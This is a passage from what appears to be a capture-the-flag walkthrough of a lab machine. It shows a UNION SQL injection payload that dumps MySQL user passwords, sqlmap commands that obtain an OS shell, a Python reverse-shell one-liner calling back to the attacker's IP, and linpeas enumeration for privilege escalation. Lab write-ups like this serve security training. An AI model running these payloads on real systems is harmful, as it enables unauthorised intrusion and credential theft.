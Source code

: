 `$cod=-1 UNION SELECT 1, user,3, 4,password, 6, 7 from mysql.user;-- -`

![](https://i.imgur.com/oICljK1.png)



## Shell as www-data
### sqlmap

Automating this process was possible through **sqlmap**:

`sqlmap -r req.txt --dbs --batch`

![](https://i.imgur.com/4pbmhFw.png)


Even obtaining shell through **sqlmap** was possible:

`sqlmap -r req.txt --dbs --batch --os-shell`

![](https://i.imgur.com/7WegXZt.png)


However, this shell was very limited so decided to spawn a proper shell.


By using the following code on sqlmap os shell, I was able to spawn a reverse shell:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.12",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Now I have shell connection as **www-data** on my netcat listener:

![](https://i.imgur.com/aoagOG1.png)


## Privesc: www-data to pepper


I first made the shell more interactive using: `python -c 'import pty; pty.spawn("/bin/bash")'`


### Linpeas

I ran linpeas.sh and it found several interesting potential escalation points.

First of all, SQL was running locally on server so I'd be able to take a look into it with proper credentials:

![](https://i.imgur.com/C39dspF.png)

www-data can run **simpler.py** as the user jarvis:

![](https://i.imgur.com/37QHroR.png)
